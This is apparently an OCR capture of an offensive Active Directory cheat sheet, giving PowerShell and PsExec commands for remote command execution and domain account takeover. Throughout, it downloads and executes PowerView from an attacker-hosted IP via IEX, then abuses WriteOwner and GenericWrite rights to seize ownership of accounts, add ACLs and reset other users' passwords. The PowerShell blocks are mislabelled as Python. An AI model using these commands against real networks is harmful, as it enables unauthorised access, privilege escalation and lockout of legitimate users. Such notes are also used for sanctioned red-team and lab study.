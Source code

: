 ```python
.\\PsExec.exe -accepteula \\\\<remote_hostname> cmd
```

### Resetting Domain User Password:

* If you own the owner of another AD user object (WriteOwner, WriteDACL, GenericWrite, Owner, etc), you can reset the password:

```python
IEX(New-Object Net.WebClient).downloadString('<http://10.10.10.123/ps/PowerView.ps1>')

$user = 'DOMAIN\\owner_acct'; 
$pass= ConvertTo-SecureString 'Password123!' -AsPlainText -Force; 
$creds = New-Object System.Management.Automation.PSCredential $user, $pass;

$newpass = ConvertTo-SecureString 'burmatw@sh3r3' -AsPlainText -Force; 

Set-DomainUserPassword -Identity 'DOMAIN\\vuln_user' -AccountPassword $newpass -Credential $creds;
```

* You can even set yourself as the owner:

```python
IEX(New-Object Net.WebClient).downloadString('<http://10.10.10.123/ps/PowerView.ps1>')
Set-DomainObjectOwner -Identity it_admin -OwnerIdentity burmat
Add-DomainObjectAcl -TargetIdentity it_admin -PrincipalIdentity burmat
$newpass = ConvertTo-SecureString -String 'burmat123$' -AsPlainText -Force
Set-DomainUserPassword -Identity it_admin -AccountPassword $newpass
```
